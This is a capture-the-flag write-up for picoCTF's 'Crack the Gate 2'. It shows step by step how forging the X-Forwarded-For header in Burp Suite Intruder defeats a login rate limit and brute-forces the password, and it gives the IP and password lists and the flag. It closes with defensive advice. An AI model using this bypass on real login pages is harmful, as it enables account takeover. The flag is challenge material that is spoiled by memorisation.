

## Challenge Write-Up — Crack the Gate 2
---
## 📌 Challenge Overview
| Field                 | Information                                              |
| :-------------------- | :------------------------------------------------------- |
| **Competition**       | picoCTF                                                  |
| **Category**          | Web Exploitation                                         |
| **Difficulty**        | Medium                                                   |
| **Objective**         | Bypass rate-limiting and brute-force the login to retrieve the flag |
---
## Initial Analysis
I was given a login page that had a rate-limiting system. This means if I tried the wrong password too many times, it would block me. Since this is a Web Exploitation challenge, my plan was to:
* Figure out how the rate-limiting works
* Find a way to fake my IP address each time
* Try all the passwords from the given list

---
## 🔎 Step 1 — Intercept the Login Request
I opened the site in my browser and turned **ON Intercept** in Burp Suite:

> BurpSuite → Proxy → Intercept → **Intercept is ON**

Then I tried to log in using these test credentials:
```
Email    : ctf-player@picoctf.org
Password : 123
```

Once I caught the request, I right-clicked the packet and chose **Send to Intruder** (or pressed `Ctrl+I`).

---
## Step 2 — Set the Attack Type
In the **Intruder** tab, I set the attack type to **Pitchfork**.

> Pitchfork means it uses two lists at the same time — one IP address paired with one password per attempt.

---
## Step 3 — Edit the Request Header
I added the `X-Forwarded-For` header to the request and put payload markers (`§`) around its value. I also put markers around the password field.

My request looked like this:
```
X-Forwarded-For: §§
```
And the password field:
```
password=§123§
```

> The `X-Forwarded-For` header tells the server where the request is coming from. Since the server trusted this header without checking it, I could just change the IP value each time to trick the rate limiter.

---
## Step 4 — Set Up the Payload Lists

### Payload Set 1 — Fake IP Addresses
In the **Payloads** tab, I selected **Payload Set 1** and pasted 20 random IP addresses:
```
152.12.198.44
201.244.67.11
82.15.209.130
19.167.3.56
210.88.14.192
64.129.55.7
172.31.255.101
45.20.188.63
111.4.156.22
98.213.78.140
205.10.33.19
3.177.202.89
144.56.12.204
77.109.4.167
198.51.100.4
52.204.11.82
130.44.201.15
25.16.199.123
168.192.1.250
8.22.110.45
```

### Payload Set 2 — Password List
I selected **Payload Set 2** and pasted the 20 passwords given by the challenge:
```
l9xKfsH0
rCRnekkE
wqMh5SQT
9JL7BM3W
OtrkErZU
xr5N5yun
FAfQ34Dr
xAzOtoGy
NT4Vm1FC
aRhrp17j
5vcxz5xZ
SooyOtMf
qpTlHqaG
0AwkENeB
tfkwkm3g
UToyxdBs
NWj5rDBm
LiVR9e3g
3v6avTIP
jcEoe8hx
```

---
## Step 5 — Run the Attack and Find the Flag
I clicked **Start Attack** and watched the responses. I looked for the one that was different from the rest — a different response length or status code means a successful login.

```text
Access Granted!
picoCTF{xff_byp4ss_brut3_1c447e47}
```

---
## Flag
```text
picoCTF{xff_byp4ss_brut3_1c447e47}
```
Success.

---
## 🔬 Technical Insight
This challenge showed me a common mistake in web security:

### ❌ Trusting Headers That the User Can Change
The server used the `X-Forwarded-For` header to check where the request came from. But since I can set this header to anything I want, I could just use a new fake IP for every login attempt. This let me:
* Skip the rate limit completely
* Keep trying passwords without getting blocked
* Brute-force the login freely

This kind of attack can be done with:
* Burp Suite Intruder (Pitchfork mode)
* Custom scripts that change the header each time

---
## 🎯 Key Lesson
This challenge follows a simple pattern:
1. Find the security check (rate-limiting)
2. Find a header the server trusts without checking
3. Use Burp Suite Intruder to send all the attempts automatically
4. Use Pitchfork mode to pair fake IPs with passwords
5. Look for the response that looks different — that's the one that worked

---
## 🧩 Final Reflection
"Crack the Gate 2" taught me an important lesson:

**Don't trust headers that the user controls for security checks.**

If the rate-limiting only checks the `X-Forwarded-For` header, anyone can fake it and bypass the block. A better way would be to track logins on the server side, use real session data, or add a CAPTCHA — something the user can't just fake with a header.

---
